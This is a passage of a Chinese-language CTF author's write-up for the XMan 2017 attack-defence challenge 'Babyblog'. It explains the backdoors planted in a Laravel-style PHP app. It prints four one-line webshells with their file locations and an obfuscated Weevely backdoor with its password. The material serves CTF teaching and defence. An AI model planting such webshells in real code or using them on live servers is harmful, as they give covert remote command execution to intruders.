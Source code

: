 ```yaml
---
id: 121
title: 'XMan2017夏令营结业攻防赛Babyblog出题思路&#038;WriteUP'
date: 2017-08-20T23:32:06+08:00
author: xm1994
layout: revision
guid: https://www.summershrimp.com/2017/08/116-revision-v1/
permalink: /2017/08/116-revision-v1/
---
```

# XMan 2017 AWD Babyblog author&#8217;s turtoral & writeup

## 0x00 出题思路

### 常见一句话木马

一句话木马是在日常攻击和渗透中使用的最广泛的一类木马，其具有代码量小，变形多，易隐藏等特性。这类一句话木马多为通过eval或类似命令直接执行对应语言的字符串代码，达到可以执行任意命令的效果。在本题中，我一共放置了四种不同类型的一句话木马：
```
# 1. app/template/*.tpl
eval($_POST[passwd])

# 2. app/controllers/PostsController.php 
$_GET[function]($_POST[params])

# 3. bootstrap/autoload.php
echo `$_POST[shellcmd]`

# 4. app/views/errors/404.blade.php
@preg_replace("/[pageerror]/e", $_POST['passwd'], "saft");
```

### 常见大马

相比于小马，这类木马通常体积稍大，更不易隐藏。但其中可以包含更多加密和混淆的措施，使攻击行为更不容易被察觉。在本题中，我放置了一个Weevely木马，其密码为xman1234

```
# 1. autoload_real.php
$i='er";$K3i=$m[1][0K3].K3$m[1K3]K3[1];$hK3=$K3sl($ss(K3md5($i.$kh),0,K33));$f=$sl(K3$sK3s(md5($i.$';
$D='kfK3K3),0,3));$p="K3";foK3K3r(K3$K3z=1;$z&lt;count($m[1]);K3$z++)$pK3.=$q[$m[K32K3][K3K3$z]];if(sK';
$v='3LANK3GUAK3GE"];if($rr&&$ra)K3{$u=paK3rK3K3sK3K3e_url($rr);parse_str($uK3["query"],$qK3);$q=arK';
$B='[$i].=$p;$eK3=strpK3oK3s($s[$i]K3,$f);ifK3($eK3){$k=$khK3.K3$kf;oK3b_start();@evaK3l(@gzuncK3om';
$o='3;}}return K3$oK3;}$rK3=$_K3SERVER;$K3rr=@$r[K3"HTTP_REFEREK3R"];$ra=K3@$r["K3HTTP_AK3CCK3EPT_K';
$O='K3;iK3f($q&K3&$m){@sesK3sioK3n_start()K3;$s=K3&$_SK3ESSIK3OK3N;$ss="substK3r";$sK3l="strtK3olow';
$H='3="";for($i=0;$i&lt;$l;K3){fK3orK3($j=0;($j&lt;$K3c&&$i&lt;$K3lK3)K3;$j++K3,$i++){$o.=$tK3{$i}^$k{$K3j}K';
$c='$K3ss($s[$i],0K3,$eK3))),$k))K3);$K3o=oK3b_get_conK3tentsK3();ob_enK3d_cK3lean();K3K3$d=baseK36';
$m='4_encode(x(K3gzcompK3ress($oK3),$kK3));print("&lt;K3$k&gt;$dK3K3&lt;/$k&gt;"K3);@sK3ession_deK3stroy();}}}}';
$t='$kh="a8bK3b";$K3kf="c44K3K3a";funK3ctK3ion x($t,$k){$cK3=sK3trlen($kK3);$l=stK3rlK3en($t);K3$oK';
$M='prK3ess(@x(@bK3aK3se64K3_decodeK3(pregK3_replaK3ce(aK3rray("/_/",K3"/-/"),arrK3ay(K3"/","K3+"),';
$f='3trposK3($p,$h)===0K3){$s[$i]=""K3;$p=$sK3s($pK3,3);}K3K3if(array_key_exisK3ts($i,K3$K3sK3)){$s';
```